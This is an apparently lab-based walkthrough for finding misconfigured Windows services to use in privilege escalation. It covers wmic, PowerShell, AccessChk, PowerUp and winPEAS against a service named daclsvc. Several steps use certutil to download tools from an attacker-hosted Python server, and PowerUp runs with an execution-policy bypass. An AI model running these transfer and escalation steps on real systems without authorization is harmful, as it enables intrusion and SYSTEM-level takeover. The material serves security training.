### **Enumerating services manually**

1.  Use `wmic` to display all non-standard services running on the system:  
    `wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\"`

    

2.  The same can be done in PowerShell with `Get-WmiObject`:  
    `Get-WmiObject -class Win32_Service -Property Name,DisplayName,PathName,StartMode | Where {$_.PathName -notlike "C:\Windows\*"} | Select PathName,DisplayName,Name`

    

### **Enumerating services with AccessChk**

1.  If you don’t have the Sysinternals Suite, download it from the official [Microsoft site](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).  

    

    **Note:** Confirm that the target is 64-bit:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary with Python and transfer it to the target with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/accesschk64.exe accesschk64.exe`

    
    
3.  Use [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) to find services writable by the current user:  
    `.\accesschk64.exe "%USERNAME%" -wuvc * -accepteula`

    

    **Note:** Here, the `daclsvc` service has `SERVICE_CHANGE_CONFIG` permissions, meaning any user can modify it.  
    The other permission of interest for escalation is `SERVICE_ALL_ACCESS`.
    
4.  PowerUp can also perform service misconfiguration checks in one command:  
    `powershell -NoProfile -ExecutionPolicy Bypass -Command "& {.\PowerUp.ps1; Invoke-AllChecks}"`

    

### **Enumerating service permissions with winPEAS**

1.  Since the target runs a 64-bit OS, host winPEASx64 with Python:  
    `python3 -m http.server 8000`

    

    **Note:** Confirm architecture with:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to the target:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/winPEASx64.exe winPEASx64.exe`

    
    
3.  Run winPEAS to search for weak service permissions:  
    `.\winPEASx64.exe`

    

    **Note:** The “Services Information” section provides a detailed list of services, configs, and security issues.
    
4.  Scrolling further down, the “Modifiable Services” sub-section highlights services the current user can modify.

    

### **Gathering service information**

1.  The most important service attributes are the start mode, binary path, and `StartName`. Example:  
    `sc qc daclsvc`

    
    
2.  In PowerShell:  
    `Get-WmiObject win32_service | ?{$_.Name -like 'daclsvc'} | select Name, DisplayName, StartMode, State, PathName, StartName`

    

    **Note:** Here, `StartName` is `LocalSystem`, meaning the service runs with SYSTEM privileges.  
    If it were another account, we would need to adjust the configuration so it executes as SYSTEM.
    
3.  Use [SetACL](https://helgeklein.com/download/) to enumerate detailed permissions on the service:  
    `.\SetACL.exe -on "daclsvc" -ot srv -actn list`

    